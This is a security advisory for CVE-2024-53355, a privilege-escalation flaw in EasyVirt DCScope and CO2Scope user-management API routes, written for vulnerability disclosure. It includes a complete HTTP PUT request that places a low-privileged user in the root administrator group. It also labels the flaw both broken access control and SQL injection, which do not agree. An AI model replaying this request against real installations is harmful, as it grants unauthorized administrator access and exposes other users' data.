 # [CVE-2024-53355] - EasyVirt - Broken Access Control
#### Exploit Author: [Aurélien BOURDOIS](https://www.linkedin.com/in/aurelien-bourdois)
#### Date: 25-10-2024
#### Vendor: [EasyVirt](https://www.easyvirt.com/)
#### Vulnerable versions: 
- DCScope <= 8.6.0
- CO2Scope <= 1.3.0

## Description:
Multiple SQL injection vulnerabilities in EasyVirt **DCScope <= 8.6.0** and **CO2Scope <= 1.3.0** allows remote authenticated attackers, with low privileges, to (1) add an admin user via the `/api/user/addalias` route; (2) modifiy a user via the `/api/user/updatealias` route; (4) delete users via the `/api/user/delalias` route; (4) get users via the `/api/user/aliases` route; (5) add a root group via the `/api/user/adduser` route; (6) modifiy a group via the `/api/user/updateuser` route; (7) delete a group via the `/api/user/deluser` route; (8) get groups via the `/api/user/users` route; (9) add an admin role via the `/api/user/addrole` route; (10) modifiy a role via the `/api/user/updaterole` route; (11) delete a role via the `/api/user/delrole` route; (12) get roles via the `/api/user/roles` route.

## Exploitation:
Privilege escalation:
```
PUT /api/user/updatealias HTTP/1.1
Host: XX.XX.XX.XX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json; charset=utf-8
Authorization: Token eyJhbGciOiJIU[..snip..]
Content-Length: 113
Te: trailers
Connection: close

{"login":"elymaro","password":"GBpkyhfCkZtPX95fFmddzg==","user":"root","is_local":1,"is_ldap":0,"is_openid":0}
```
> The parameter `user` means group. `root` is the default administrator group.
>
> The encrypted password is `Elym@r0`. 

## Impact :
A low-privileged user can modify his own group, change its permissions or create/modify other users, enabling escalation of privileges.
In addition, the user can access other users' data, including e-mails, login names, group and role membership.
